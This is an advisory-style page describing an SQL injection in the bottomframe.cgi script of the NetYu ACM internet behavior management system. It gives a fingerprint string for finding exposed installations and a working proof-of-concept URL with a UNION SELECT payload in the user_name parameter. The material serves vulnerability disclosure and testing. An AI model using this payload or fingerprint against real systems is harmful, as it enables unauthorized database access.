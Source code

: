 #NetYu ACM Internet Behavior Management System bottomframe.cgi SQL Injection Vulnerability

## Vulnerability Description

Netyu ACM Internet behavior management system bottomframe.cgi has a SQL injection vulnerability, and attackers can obtain sensitive information from the server database through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">NetYu ACM Internet Behavior Management System</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"scripts/webcommon.js"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663994453807-0fa60804-9c2a-41bc-92b4-778b8f02afd0.png)

Verify POC

```sql
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663994495576-74ca5671-1b50-4cd9-b894-0de7277e073b.png)